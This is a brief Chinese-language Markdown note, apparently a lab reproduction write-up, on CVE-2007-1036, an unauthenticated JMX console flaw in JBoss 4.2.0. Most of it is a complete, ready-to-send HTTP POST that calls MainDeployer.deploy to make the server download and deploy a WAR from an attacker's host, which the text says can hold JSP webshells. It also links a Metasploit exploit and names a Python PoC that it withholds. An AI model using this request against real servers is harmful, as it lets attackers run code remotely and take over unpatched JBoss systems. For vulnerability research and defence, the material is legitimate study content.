

CVE-2007-1036
--

### 复现环境
jdk 1.8
jboss 4.2.0

### 复现方法

```
POST /jmx-console/HtmlAdaptor HTTP/1.1
Host: 127.0.0.1:8080
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_13_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/69.0.3497.81 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Length: 150
Content-Type: application/x-www-form-urlencoded

action=invokeOpByName&name=jboss.system%3Aservice%3DMainDeployer&methodName=deploy&argType=java.lang.String&arg0=http://xxxxxx/a.war
```



其中arg0是攻击者服务器上放置的恶意war包，包中可以放置jsp大马、小马什么的。

### msf exp

https://www.exploit-db.com/exploits/16318

### python poc

jboss_file_creation_cve20072036
自己根据msf exp改一下吧，不方便放出来